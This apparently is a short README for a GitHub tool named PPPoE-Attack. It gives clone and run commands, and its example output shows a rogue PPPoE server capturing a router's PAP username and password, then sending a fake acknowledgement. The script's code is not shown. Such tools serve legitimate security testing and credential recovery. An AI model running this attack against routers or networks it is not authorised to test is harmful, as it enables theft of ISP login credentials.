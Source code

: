 ## Installation

1. Clone the repository:
```bash
git clone https://github.com/captainfaisal/PPPoE-Attack.git
cd PPPoE-Attack
```

## Usage

### Basic Operation
After connecting the router, run the code to get PPPoE credentials.
```bash
sudo python3 attack.py
```
For specific interface other than eth0, run

```bash
sudo python3 attack.py -i enp4s0
```

### Example Output
```
[+] PPPoE Server running on enp4s0 (MAC: 18:c0:4d:71:32:aa)
[+] Waiting for PPPoE clients...
[+] Received PADI from e8:65:d4:08:75:00
[+] Sent PADO to e8:65:d4:08:75:00
[+] Received PADR from e8:65:d4:08:75:00
[+] Sent PADS (Session ID: 48320)
[+] Received LCP Configuration-Request (ID: 1, Session: 48320)
    MRU: 1480 bytes
[+] Sent LCP Config-Ack (ID: 1, Session: 48320)
[+] Sent LCP Configuration-Request (Session: 48320)
    Magic Number: 0xb01e922e
[+] Received LCP Configuration-Ack (ID: 1, Session: 48320)
[!] Unknown LCP code 9 (Session: 48320)

[!] Captured PAP Credentials:
    Session ID: 48320
    Username:   testuser
    Password:   testpass

[+] Sent fake PAP ACK
```